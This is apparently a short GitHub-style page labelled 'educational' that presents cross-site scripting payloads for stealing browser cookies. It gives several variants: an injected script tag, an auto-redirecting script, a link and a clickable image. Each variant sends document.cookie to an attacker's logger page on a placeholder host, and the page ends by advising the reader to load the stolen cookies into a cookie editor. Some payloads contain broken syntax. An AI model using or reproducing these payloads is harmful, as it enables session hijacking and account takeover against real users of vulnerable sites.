 Some cooklie stealing using php
**ONLY FOR EDUCATIONAL PURPOSES**

Some examples of using them:
```
"><script language= "JavaScript">document.location="http://yoursite.com/whateveryouwant.php?cookie=" + document.cookie;document.location="http://www.whateversite.com"</script>
```
yoursite.com is the server you’re hosting your cookie stealer and log file on, and whateversite.com is the vulnerable page you’re exploiting.

The victim just enters the page:
```
<script language="Java script">
document.location="http://www.yourhost.com/cookielogger.php?cookie=&quot; + document.cookie;
</script>
```

Your can also trick the victim into clicking a link that activates javascript.
```
<a href="java script:document.location='http://www.yourhost.com/cookielogger.php?cookie='+document.cookie;">Click here!</a>
```

Clicking an image also can activate the script.For this purpose you can use the below code.
```
<a href="java script:document.location='http://www.yourhost.com/cookielogger.php?cookie='+document.cookie;"&gt;
<img src="URL OF THE IMAGE"/></a>
```

To use the information download a cookie editor such as firebug.